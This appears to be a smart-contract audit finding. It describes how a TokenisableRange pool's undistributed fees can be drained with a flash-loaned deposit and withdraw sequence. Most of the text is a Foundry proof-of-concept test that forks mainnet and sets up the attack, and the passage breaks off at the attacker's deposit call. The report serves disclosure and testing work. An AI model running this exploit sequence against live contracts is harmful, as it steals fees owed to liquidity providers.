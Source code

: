 Given a TokenisableRange contract in the right state (high value locked in fees, but still no reinvestment happening) a user can maliciously craft a `deposit` and `withdraw` sequence (why not, with flash-loaned assets) to steal most of the fees (`fee0`, `fee1`) held by the pool before distribution.

### Proof of Concept

Below is a working PoC that shows under real market conditions how most of the fees (>3% of the pool assets) can be s stolen risk-free by simply depositing and withdrawing a large quantity of liquidity:

```Solidity
    function testStolenFeesPoc() public {
        vm.createSelectFork(
            "mainnet",
            17811921
        );

        vm.prank(tokenWhale);
        USDC.transfer(alice, 100_000e6);

        vm.startPrank(alice);
        TokenisableRange tr = new TokenisableRange();

        // out of range: WETH is more valuable than that (about 1870 USDC on this block 17811921); 
        // the pool will hold 0 WETH
        tr.initProxy(AaveOracle, USDC, WETH, 500e10, 1000e10, "Test1", "T1", false);

        USDC.approve(address(tr), 100_000e6);
        tr.init(100_000e6, 0);

        // time passes, and the pool trades in range, accumulating fees
        uint256 fee0 = 1_000e6;
        uint256 fee1 = 2e18;

        vm.mockCall(address(UniswapV3UsdcNFPositionManager), 
            abi.encodeWithSelector(INonfungiblePositionManager.collect.selector), 
            abi.encode(fee0, fee1));

        vm.stopPrank();
        vm.startPrank(tokenWhale);
        USDC.transfer(address(tr), fee0);
        WETH.transfer(address(tr), fee1);

        // now the price is back to 1870 USDC,
        // the undistributed fees are 1k USDC and 2 WETH, 
        // in total about $5k or 5% of the pool value 
        // (the percentage can be higher with bigger price swings)
        // but still, they are not reinvested
        tr.claimFee();
        vm.clearMockedCalls();
        require(tr.fee0() != 0);
        require(tr.fee1() != 0);

        // an attacker now can flashloan & deposit an amount that will give them
        // the majority of the pool liquidity, then withdraw for a profit
        uint256 usdcBalanceBefore = USDC.balanceOf(tokenWhale);
        uint256 wethBalanceBefore = WETH.balanceOf(tokenWhale);
        uint256 poolSharesBefore = tr.balanceOf(tokenWhale);

        USDC.approve(address(tr), 10_000_000e6);
        // this is the hack: we add just a tiny little bit of WETH so TokenisableRange doesn't
        // count the value locked in fees in assigning the LP tokens
        WETH.approve(address(tr), 1000);
        uint256 deposited = tr.deposit(10_000_000e6, 1000);
```